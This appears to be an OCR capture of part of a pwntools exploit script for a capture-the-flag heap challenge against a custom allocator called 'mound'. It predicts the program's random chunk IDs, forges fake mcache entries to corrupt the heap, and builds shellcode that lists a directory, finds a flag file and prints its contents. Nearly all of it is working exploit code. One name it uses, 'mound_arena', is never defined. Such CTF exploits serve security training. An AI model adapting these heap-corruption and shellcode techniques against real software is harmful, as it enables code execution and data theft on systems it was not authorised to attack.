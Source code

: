    ```python
       r.sendafter('Pile: ', s)
   def edit(idx: int, s: bytes):
       choose(3)
       r.sendlineafter('index: ', str(idx))
       r.sendafter('pile: ', s)
   def free(idx: int):
       choose(4)
       r.sendlineafter('index: ', str(idx))
   
   def csize2midx(x:int): return (x>>4)-2
   def midx2csize(i:int): return (i+2)<<4
   def size2request(x:int): return x-0x10
   def request2size(x:int): return x+0x10
   def midx2rsize(i:int): return size2request(midx2csize(i))
   def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
   def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers
   
   midxs = namedtuple('midb', 'first_alloc overflower incrementer fakechunk bugged got_overwriter entries')(1, 4, 0, 2, -1, 3, 0x10)
   mound_data = namedtuple('beef', 'base mcache fakechunk dents shellcode')(BEEF, BEEF+0x10, BEEF+0x100, BEEF+0x10000, BEEF+0x190)
   def fake_mcache_entry(sz: int, fd=0, rid=None, mcache=mound_data.mcache):
       if rid is None: rid = r64()
       return fit(rid, sz, mcache, fd)
   add(midxs.first_alloc, 0, fake_mcache_entry(sz=midx2csize(midxs.fakechunk)))
   add(midxs.overflower, 1, b'a') # chunk to be overflowed
   for _ in range(2): r64bit()
   
   O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
   sc = '' # step 1: getting a directory listing
   sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
   sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
   sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
   sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
   # step 2: loop through the dents data to find the flag filename
   sc+=shellcraft.mov('rax', mound_data.dents)
   sc+= 'loop:\n'
   sc+= 'inc rax\n'
   sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
   sc+= 'jne loop\n'
   # step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
   sc+= 'lea rbx, [rax-0x20]\n'
   sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
   sc+= shellcraft.openat('rax', 'rbx', 0)
   sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
   sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
   sc = asm(sc) # don't call asm() twice
   add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use
   
   for _ in range(3): r64bit() # There have been 5 rand64bit() calls so far; account for them.
   
   # The substance of the exploit: getting mcache->entries[-1] to point to a fake mchunk
   for midx,b in tqdm((i+midxs.entries,b) for i,b in enumerate(pack(mound_data.fakechunk)) if b):
       def pad(s: bytes): return s.rjust(0x17, b'a')
       strdup(pad(b''), 0xf) # Remember that maximally, user_sz = 8 (mod 0x10) for a given glibc heap chunk.
       strdup(pad(b''), 0xe) # A string has a trailing nul-byte, so maximally strlen(s) = 7 (mod 0x10)
       add(midx, 2, b'hi')
   ```